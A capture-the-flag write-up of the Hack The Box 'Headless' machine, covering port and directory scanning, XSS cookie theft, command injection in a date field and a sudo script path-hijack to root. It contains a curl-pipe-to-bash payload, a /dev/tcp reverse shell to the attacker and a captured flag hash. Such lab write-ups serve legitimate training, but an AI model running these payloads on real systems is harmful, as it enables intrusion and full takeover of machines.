




## Headless

You can find the machine [here](https://app.hackthebox.com/machines/Headless).
During all this writeup, I'll be using the variable `$TARGET_IP` as the machine IP address, and `$ATTACKER_IP` as the attacker IP address (us).

## Step 1 - Recognition

First of all, we will do some recognition using nmap without any flags to quickly find out which ports are open :
```bash
$ nmap <machine_ip>
Starting Nmap 7.94 ( <https://nmap.org> ) at 2024-04-10 16:10 CEST
Nmap scan report for <machine_ip>
Host is up (0.024s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT     STATE SERVICE
22/tcp   open  ssh
5000/tcp open  upnp

Nmap done: 1 IP address (1 host up) scanned in 0.75 seconds
```

We can see that the port 5000 is open. With the flag `-sV` we can detect that this is a website :


We use gobuster to detect any subdirectories on this website :
```bash
$ gobuster dir -u "http://${TARGET_IP}:5000/" -w ~/HackTheBox/SecLists/Discovery/Web-Content/common.txt
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     <http://10.10.11.8:5000/>
[+] Method:                  GET
[+] Threads:                 120
[+] Wordlist:                /home/l1x/HackTheBox/SecLists/Discovery/Web-Content/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/dashboard            (Status: 500) [Size: 265]
/support              (Status: 200) [Size: 2363]
```

We found the subdirectories `/dashboard` and `/support`.
### Step 2 - Exploit phase


#### Flag user.txt
On the page `/support`, we can use a XSS Injection in the `Message` field. It will redirect us to this page :


With Burp, we can edit this request so that our XSS Injection steal the administrator cookies. To do so, we first have to open an HTTP server :
```bash
python3 -m http.server 8042
```

On burp, we can edit the User-Agent field and the message with this payload :
```bash

```


At this point, we just wait a few seconds before getting the administrator cookies :
```bash
ImFkbWluIg.dmzDkZNEm6CK0oyL1fbM-SnXpH0
```

Let's go back to the `/dashboard` page :


If we intercept this request with Burp, we can see that a field `date` is sent :


If we edit this request by adding the payload `; ls` to the date field, we can see in the response that the command `ls` has been executed :


We can run a reverse shell with a new payload :
```bash
date=2023-09-15; curl+"<your_ip>:8042/shell.sh"|bash
```
With a file named `shell.sh` :
```bash
#!/usr/bin/bash
/bin/bash -i >& /dev/tcp/<your_ip>/4444 0>&1
```

And by opening an http server on our machine, and we can get the user.txt flag.
#### Flag root.txt

With the command `sudo -l`, we can see that we can execute a binary file without password :
```bash
$ sudo -l
sudo -l
Matching Defaults entries for dvir on headless:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\\:/usr/local/bin\\:/usr/sbin\\:/usr/bin\\:/sbin\\:/bin,
    use_pty

User dvir may run the following commands on headless:
    (ALL) NOPASSWD: /usr/bin/syscheck
```

The executable file `/usr/bin/syscheck` contains the following scripts :
```bash
$ cat /usr/bin/syscheck
#!/bin/bash

if [ "$EUID" -ne 0 ]; then
  exit 1
fi

last_modified_time=$(/usr/bin/find /boot -name 'vmlinuz*' -exec stat -c %Y {} + | /usr/bin/sort -n | /usr/bin/tail -n 1)
formatted_time=$(/usr/bin/date -d "@$last_modified_time" +"%d/%m/%Y %H:%M")
/usr/bin/echo "Last Kernel Modification Time: $formatted_time"

disk_space=$(/usr/bin/df -h / | /usr/bin/awk 'NR==2 {print $4}')
/usr/bin/echo "Available disk space: $disk_space"

load_average=$(/usr/bin/uptime | /usr/bin/awk -F'load average:' '{print $2}')
/usr/bin/echo "System load average: $load_average"

if ! /usr/bin/pgrep -x "initdb.sh" &>/dev/null; then
  /usr/bin/echo "Database service is not running. Starting it..."
  ./initdb.sh 2>/dev/null
else
  /usr/bin/echo "Database service is running."
fi

exit 0
```

At the end of the script, we can this this line :
```bash
./initdb.sh 2>/dev/null
```

We can create a file `initdb.sh` in a directory and paste the following payload :
```bash
cd /tmp; echo "/bin/bash" > initdb.sh && chmod a+x initdb.sh
```

Then by excecuting the file `/usr/bin/syscheck` with sudo, we can have a shell as `root` :
```bash
$ sudo /usr/bin/syscheck
Last Kernel Modification Time: 01/02/2024 10:05
Available disk space: 1.6G
System load average:  1.02, 0.61, 0.36
Database service is not running. Starting it...
whoami
root
cd /root; cat root.txt
4ea63b045a81be797cb1658d476aec31
```
